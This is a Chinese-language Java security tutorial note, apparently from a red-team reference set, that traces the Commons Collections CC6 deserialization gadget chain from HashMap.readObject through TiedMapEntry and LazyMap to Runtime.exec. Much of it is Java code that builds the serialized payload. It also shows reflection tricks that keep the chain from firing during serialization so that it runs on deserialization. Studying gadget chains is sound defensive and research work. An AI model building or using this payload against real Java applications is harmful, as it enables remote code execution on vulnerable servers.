





# 05 · 反序列化链 · CC6

> 查阅区 · **只查不读**，不进学习路径。原文拆自 `JAVA安全-全本`，正文一字未改，仅调标题层级与图片相对路径。
> 什么时候翻：红队 M3；CC1 被版本卡住时的通用替代，先看它靠什么绕开 JDK 依赖

这是一条较为通用的链，不像CC1的两条利用链都严格依赖于Common Collections 3.2.1 以及 JDK8u65，当版本不符时便不能再利用了，所以这里再次跟踪CC6利用链

- 这条链可以说是URLDNS前半部分+CC1原生链后半部分的组合，不同的是使用了`TiedMapEntry`作为把链连接起来的节点

- 在URLDNS链的`hashcode()`是关键节点，通过`HashMap`的`readObject()`中`putVal()`衔接

  

  - 继续跟进`hash()`

    

- 接来下是`TiedMapEntry.hashcode()`

  

  - 跟进其中的getValue方法

    

  - 想要的`get()`也就有了

- 所以反序列化前部分的代码也就有了

  ```java
  HashMap<Object, Object> map = new HashMap<>();
  Map lazymap = LazyMap.decorate(map, chainedTransformer);
  TiedMapEntry tiedMapEntry = new TiedMapEntry(lazymap, "key");
  
  HashMap<Object, Object> hashMap = new HashMap<>();
  hashMap.put(tiedMapEntry, "value");
  ```

- 但是在URLDNS链中就知道了`HashMap.put()`中也触发了`hashcode()`，所以在序列化时便触发了链，修改方法也很简单，在调用`put()`前先不写入完整的链，在序列化前再将链补全

  - 以下是修改方式

    ```java
    HashMap<Object, Object> map = new HashMap<>();
    Map lazymap = LazyMap.decorate(map, new ConstantTransformer(1));
    TiedMapEntry tiedMapEntry = new TiedMapEntry(lazymap, "key");
    
    HashMap<Object, Object> hashMap = new HashMap<>();
    hashMap.put(tiedMapEntry, "value");
    
    Class<LazyMap> lazyMapClass = LazyMap.class;
    Field field = lazyMapClass.getDeclaredField("factory");
    field.setAccessible(true);
    field.set(lazymap, chainedTransformer);
    ```

  - 序列化时不会执行命令了，但反序列化时也没法正常执行，这里通过调试可以发现在`LazyMap.get()`中如果要执行`transform()`必须满足key值为空，序列化时满足这个条件进入if代码块，但`map.put()`为key赋了值，所以在反序列化时便不会进入代码块了

    

  - 解决办法也很简单，在反序列化前把赋的值删去即可，所以最终代码是

    ```java
    HashMap<Object, Object> map = new HashMap<>();
    Map lazymap = LazyMap.decorate(map, new ConstantTransformer(1));
    TiedMapEntry tiedMapEntry = new TiedMapEntry(lazymap, "key");
    
    HashMap<Object, Object> hashMap = new HashMap<>();
    hashMap.put(tiedMapEntry, "value");
    
    Class<LazyMap> lazyMapClass = LazyMap.class;
    Field field = lazyMapClass.getDeclaredField("factory");
    field.setAccessible(true);
    field.set(lazymap, chainedTransformer);
    lazymap.remove("key");
    
    serialize(hashMap);
    ```

  - 还有一种同样可以直接执行的方式，这个修改方式使得在调用`hashMap.put()`前根本没进入`LazyMap`下的if判断语句所以反序化后可以正常执行

    ```java
    HashMap<Object, Object> map = new HashMap<>();
    Map lazymap = LazyMap.decorate(map, chainedTransformer);
    TiedMapEntry tiedMapEntry = new TiedMapEntry(map, "key");
    
    HashMap<Object, Object> hashMap = new HashMap<>();
    hashMap.put(tiedMapEntry, "value");
    
    Class<?> clazz = TiedMapEntry.class;
    Field field = clazz.getDeclaredField("map");
    field.setAccessible(true);
    field.set(tiedMapEntry, lazymap);
    ```

- Gadget

  ```java
  HashMap.readObject()
      HashMap.hash()
      	TiedMapEntry.hashCode()
      		TiedMapEntry.getValue()
      			LazyMap.get()
      				ChainedTransformer.transform()
      					ConstantTransformer.transform()
      					InvokerTransformer.transform()
      					Runtime.getRuntime().exec()
  ```
